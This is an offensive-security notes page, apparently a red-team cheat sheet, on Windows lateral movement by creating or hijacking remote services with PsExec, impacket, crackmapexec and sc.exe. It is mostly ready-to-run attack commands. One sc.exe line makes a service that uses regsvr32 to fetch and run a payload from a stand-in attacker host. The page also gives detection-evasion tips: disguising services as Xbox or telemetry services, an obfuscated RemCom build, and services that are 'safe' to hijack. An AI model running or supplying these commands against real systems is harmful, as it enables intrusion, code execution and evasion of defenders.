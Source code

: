 ```yaml
---
title: Lateral Movement trough Services
---
```


[[notes/lateral-movement/index]] by using the [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/) protocol to create or update services and execute commands in system context.

Classic PsExec.
The typically flow is to upload an executable over SMB, create a service that points to the executable, start the service and send input and output over a SMB named pipe.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-psexec -k -no-pass srv01.corp.local
    ~~~

    With slightly improved OpSec ([source](https://twitter.com/_bin_Ash/status/1621627726321827840)).

    ~~~ bash
    impacket-psexec -file ./RemCom.exe -service-name WindowsTelemetry -remote-binary-name telemetry.exe -k -no-pass srv01.corp.local
    ~~~

    An obsufcated version of [RemCom](https://github.com/kavika13/RemCom) can be compiled with [RemComObf.sh](https://gist.github.com/snovvcrash/123945e8f06c7182769846265637fedb).

    **Warning:** Old versions create a service that allows unauthenticated remote command execution and can be exploited with [psexec_noinstall.py](https://github.com/MzHmO/psexec_noinstall) ([source](https://twitter.com/bugch3ck/status/1626963208811470848)).

=== "[psexec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)"
    ~~~ bat
    .\psexec.exe -accepteula -i -s \\srv01.corp.local powershell.exe
    ~~~

> **OpSec:** PsExec is very noisy. You should prefer a different technique.

A variation of PsExec is SMBExec.
It works by creating a service that executes a command, writes the output to a file and then retrieves the output over SMB.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-smbexec -k -no-pass -shell-type powershell srv01.corp.com
    ~~~

    **OpSec:** When `-mode server` is specified the command output is directly written to the attackers SMB share.

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.com -u jdoe -p 'passw0rd' --exec-method smbexec -x 'whoami /all'
    ~~~

    **OpSec:** Many EDRs detecte the use of `-X`.

Upload a file and create a service manually.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-services -k -no-pass ws01.corp.local create -name XboxUpdSvc -display 'Xbox Updater' -path 'C:\Windows\Temp\beacon.exe'
    impacket-services -k -no-pass ws01.corp.local change -name XboxUpdSvc -start_name 'NT Authority\System'
    impacket-services -k -no-pass ws01.corp.local start -name XboxUpdSvc
    ~~~

=== "builtin"
    ~~~ bat
    sc.exe \\srv01.corp.local create XboxUpdSvc binpath= "C:\Windows\System32\regsvr32.exe /s /n /u /i:http://attacker.lan/setup.exe scrobj.dll"
    sc.exe \\srv01.corp.local start XboxUpdSvc
    ~~~

> **OpSec:** Modify the command of an existing service or overwrite the binary of an service to avoid detections based on remote service creation.

Builtin services that can be modified relatively safe:

~~~
icssvc
lfsvc
PerfHost
XblAuthManager
XblGameSave
XboxGipSvc
XboxNetApiSvc
~~~

Untested tools:

- [scshell](https://github.com/mr-un1k0d3r/scshell), modifies an existing service
- [NimExec](https://github.com/frkngksl/NimExec)

References:

- [twitter.com/jaredcatkinson/status/1712517132205044225](https://twitter.com/jaredcatkinson/status/1712517132205044225), how to safely filter out per-user services when writing detections for service creation
- [The Defender’s Guide to Windows Services](http://web.archive.org/web/20230122191559/https://scribe.rip/@specterops/the-defenders-guide-to-windows-services-67c1711ecba7)
